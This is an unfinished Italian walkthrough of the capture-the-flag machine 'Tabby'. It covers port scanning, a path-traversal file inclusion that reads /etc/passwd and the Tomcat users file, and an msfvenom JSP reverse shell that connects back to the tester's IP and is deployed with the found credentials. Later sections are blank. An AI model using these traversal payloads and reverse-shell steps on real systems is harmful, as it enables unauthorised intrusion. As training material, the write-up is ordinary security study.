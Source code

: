 # Template (NON COMPLETATA!)

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.194
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/15%OT=22%CT=1%CU=37832%PV=Y%DS=2%DC=I%G=Y%TM=655484
OS:3D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Porta 80

Visito la pagina http://10.10.10.194/:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-1.png"/>
</p>

Aggiungo quindi _megahosting.htb_ al file _/etc/hosts_.

Provo ad utilizzare il comando _dirsearch_:

```text
dirsearch -u http://10.10.10.194/
```

```text
[03:53:06] 403 -  277B  - /.ht_wsr.txt
[03:53:06] 403 -  277B  - /.htaccess.orig
[03:53:06] 403 -  277B  - /.htaccess.bak1
[03:53:06] 403 -  277B  - /.htaccess.sample
[03:53:06] 403 -  277B  - /.htaccess.save
[03:53:06] 403 -  277B  - /.htaccess_extra
[03:53:06] 403 -  277B  - /.htaccessOLD
[03:53:06] 403 -  277B  - /.htaccess_orig
[03:53:06] 403 -  277B  - /.htaccessBAK
[03:53:06] 403 -  277B  - /.htaccessOLD2
[03:53:06] 403 -  277B  - /.htaccess_sc
[03:53:06] 403 -  277B  - /.htm
[03:53:06] 403 -  277B  - /.html
[03:53:06] 403 -  277B  - /.httr-oauth
[03:53:06] 403 -  277B  - /.htpasswds
[03:53:06] 403 -  277B  - /.htpasswd_test
[03:53:08] 403 -  277B  - /.php
[03:53:27] 403 -  277B  - /assets/
[03:53:27] 301 -  313B  - /assets  ->  http://10.10.10.194/assets/
[03:53:42] 200 -  766B  - /favicon.ico
[03:53:43] 301 -  312B  - /files  ->  http://10.10.10.194/files/
[03:53:43] 403 -  277B  - /files/
[03:53:59] 200 -    0B  - /news.php
[03:54:09] 200 -  811B  - /Readme.txt
[03:54:13] 403 -  277B  - /server-status
[03:54:13] 403 -  277B  - /server-status/
```

Di seguito il contenuto della pagina http://10.10.10.194/Readme.txt:

```text
== Theme Name: Hosting One Page Template
== Copyright (c) 2016 BootstrapThemes.co
== http://BootstrapThemes.co

Html Created by: http://bootstrapthemes.co

Psd Created by: Kristaps Elsins- https://dribbble.com/shots/1520333-Free-Hosting-Template-PSD

Rights:
You are permitted to use the resources for any number of personal and commercial projects.
You may modify the resources according to your requirements and include them into works,
such as websites, applications or other materials intended for sale. No attribution or
link back to this site is required, however any credit will be much appreciated.

Prohibitions:
You do not have the rights to redistribute, resell, lease, license, sublicense or offer
files downloaded from http://bootstrapthemes.co to any third party ìas isî or as a separate attachment
from any of your work. If you wish to promote my resources on your site, you must link back
to the resource page where users can find the download and not directly to the download file.

If you would like to share one of my resources, you can do so by making a link to the specific
resource on http://bootstrapthemes.co , you can if you wish insert the embed code for the product previews images to illustrate your link.
No HOTLINKING is allowed i.e. you cannot make a direct link to the download or/and the images hosted on http://bootstrapthemes.co

Concerning blog posts, you are free to link to it from any website,
but you cannot however publish it as it is, without prior consent from http://bootstrapthemes.co
```

Questo invece è il contenuto della pagina http://10.10.10.194/news.php:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-3.png"/>
</p>

Mi risalta subito all'occhio l'url aggiornato della pagina: http://megahosting.htb/news.php?file=statement.

Quindi provo a verificare la presenza della vulnerabilità LFI (Local Fil Inclusion) utilizzando come paramentro la seguente stringa: ../../../../../etc/passwd. Il risultato è il seguente:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-6.png"/>
</p>

**Quindi è vulnerabile!**

### Porta 8080

Visito la pagina http://10.10.10.194:8080/:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-2.png"/>
</p>

Provo a cliccare su _manager webapp_ e ottengo questo form:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-4.png"/>
</p>

Provo a sfruttare la vulnerabilità precedentemente trovata per accedere al file /etc/tomcat9/tomcat-users.xml. Purtroppo non ottengo nulla.

Dopo vari tentativi, provo ad effettuare la seguente richiesta: http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml.

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-7.png"/>
</p>

**Ottengo quindi delle credenziali!**


## Exploitation

Provo ad accedere tramite il form ma ottengo il seguente risultato:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-8.png"/>
</p>

Quindi provo un'altra strada. Genero un file war, per creare una reverse shell, attraverso l'utilizzo del seguente comando:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=9999 -f war > naclapor.war
```

Successivamente, carico il file sulla tomcat manager interface:

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" --upload-file naclapor.war http://10.10.10.194:8080/manager/text/deploy?path=/naclapor
```

NON VA!

...

## Privilege Escalation

...


## Credits

...
